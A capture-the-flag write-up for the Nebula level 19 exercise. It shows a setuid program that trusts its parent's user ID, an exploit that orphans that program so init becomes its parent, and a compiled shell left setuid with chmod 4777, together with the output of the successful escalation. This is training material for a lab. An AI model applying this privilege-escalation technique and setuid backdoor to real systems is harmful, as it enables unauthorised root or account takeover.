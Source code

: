 +++
author = "pwntester"
categories = ["nebula19"]
date = 2013-11-28T19:04:00Z
description = ""
draft = false
slug = "nebula-level19-write-up"
tags = ["nebula19"]
title = "Nebula level19 write-up"

+++

In [Level 19](http://www.exploit-exercises.com/nebula/level19) we are given the source code of a vulnerable program:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

The only way to execute the shell is if the parent process was started by **root** and since we are not root, we need to find a way to make that happen. The key is that in Unix if a parent process die while the children are still alive, the children are immediatly relocated and assigned to **init** process. In our case init was started by root:

```lang-bash line-numbers 
level19@nebula:~$ ps -ef | grep init
root         1     0  0 Nov25 ?        00:00:00 /sbin/init
level19  15698 15594  0 11:10 pts/0    00:00:00 grep --color=auto init
```

So we need to write a program that will start our **flag19** program and then kills itself before flag19 checks the parent pid:

```lang-clike line-numbers 
level19@nebula:~$ cat shell.c
#include <linux/unistd.h>

void main() {
  setresuid(geteuid(),geteuid(),geteuid());
  system("/bin/sh");
}
```

and the exploit:

```lang-clike line-numbers 
level19@nebula:~$ cat exploit.c
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
    int childPID = fork();
    if(childPID >= 0) { // fork was successful
        if(childPID == 0) { // child process
	    sleep(1);
	    setresuid(geteuid(),geteuid(),geteuid());
	    char *args[] = {"/bin/sh", "-c", "gcc /home/level19/shell.c -o /tmp/shell; chmod 4777 /tmp/shell", NULL};
	    execve("/home/flag19/flag19", args, envp);
        }
    }
    return 0;
}
```

Now, lets go for the flag:

```lang-clike line-numbers 
level19@nebula:~$ ./exploit
level19@nebula:~$ /tmp/shell
sh-4.2$ id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

Voila!!
